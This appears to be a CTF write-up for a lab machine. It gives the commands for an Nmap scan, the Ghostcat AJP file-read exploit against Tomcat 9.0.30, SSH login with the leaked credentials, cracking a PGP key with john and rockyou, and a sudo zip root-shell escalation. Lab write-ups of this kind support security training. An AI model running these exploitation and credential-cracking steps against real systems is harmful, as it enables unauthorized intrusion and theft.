 First of all take the IP MACHINE and apply this command

```

export IP=10.10.98.37

```

that's would save the IP in variable  if u want to call it just type $IP for example

```

ping $IP

```

Now let's start 



--------------

# Nmap scanning phase

I have use this command

```

nmap -sC -sV -T4 $IP 

```

## The Result

```

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 03:04 EDT

Nmap scan report for 10.10.98.37

Host is up (0.14s latency).

Not shown: 996 closed tcp ports (reset)

PORT     STATE SERVICE    VERSION

22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)

|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)

|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)

53/tcp   open  tcpwrapped

8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)

| ajp-methods: 

|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       Apache Tomcat 9.0.30

|_http-favicon: Apache Tomcat

|_http-open-proxy: Proxy might be redirecting requests

|_http-title: Apache Tomcat/9.0.30

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

as we can see there is 4 ports open

- 22 SSH

- 53 tcpwrapped

- 8009 ajp13

- 8080 Apache tomcat 9.0.30

We are interested at 8080 port. because that's what CTF about

# Checking

Check what is contain

![](https://i.imgur.com/uyEkJTK.png)



Search for exploit for Tomcat/9.0.30

![](https://i.imgur.com/SGsauLh.png)

u can use any exploit u want but I will use this one.

download it using 

```

git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git

```

then 

```

 cd Ghostcat-CNVD-2020-10487/

```

![](https://i.imgur.com/3WjFN1R.png)

this exploit we can do three things Read,execute,save. u can check the github for further examples

![](https://i.imgur.com/FQfHzu1.png)

this is from Github we will use it as a reference. 

so it's ask for url + ajp port ==which we found in nmap phase== + directory that we want to read or execute + action



let's try that

```

python3 ajpShooter.py http://10.10.98.37:8080/ 8009 /WEB-INF/web.xml read

```

![](https://i.imgur.com/tyt7SO1.png)



seems that we got credentials 

skyfuck:8730281lkjlkjdqlksalks

try join SSH using these credentials

```

ssh skyfuck@$IP    

```

and the password is 8730281lkjlkjdqlksalks

![](https://i.imgur.com/Fd86lmw.png)

and we are in 

![](https://i.imgur.com/KpT98eH.png)

so we have two files. download it.

go to your local machine and type this to #Download 

```

scp skyfuck@$IP:/home/skyfuck/* .

```

![](https://i.imgur.com/DPfmndF.png)

successfully downloaded. 

![](https://i.imgur.com/f2WiVWt.png)

private key and pgp we can use #john_the_ripper to crack this

using this command #gpg2john #Public_key

```

gpg2john tryhackme.asc > cred.txt 

```

and we have new file named cred.txt

now use john to crack this 

```

john cred.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

![](https://i.imgur.com/M7eJMx9.png)



now we want to decrypt credential.pgp but we can't do that because we didn't import tryhackme.asc to #gpg. type this command

```

gpg --import tryhackme.asc

```

it  would ask u for a password. it would be the one we got 

==alexandru==

![](https://i.imgur.com/XhnYlvM.png)

now we can decrypt credential.pgp

```

gpg --decrypt credential.pgp

```

![](https://i.imgur.com/hb7bxOy.png)



==merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j==



join the SSH using these creds we found

![](https://i.imgur.com/fDQY7CX.png)

```

ls

cat user.txt

```

and retrieve your flag.



# Privilege Escalation



we want to check what commands we can run without password

```

sudo -l

```

![](https://i.imgur.com/bRc8aWH.png)



using our friend GTFObins website

![](https://i.imgur.com/v64ZKmr.png)



![](https://i.imgur.com/LirxpwK.png)



so we want to type 

```

TF=$(mktemp -u)

sudo zip $TF /etc/hosts -T -TT 'sh #'

sudo rm $TF

```

to get our root shell

![](https://i.imgur.com/p6UEw0Q.png)

type 

```

cd /root

cat root.txt

```

to retrieve your root flag

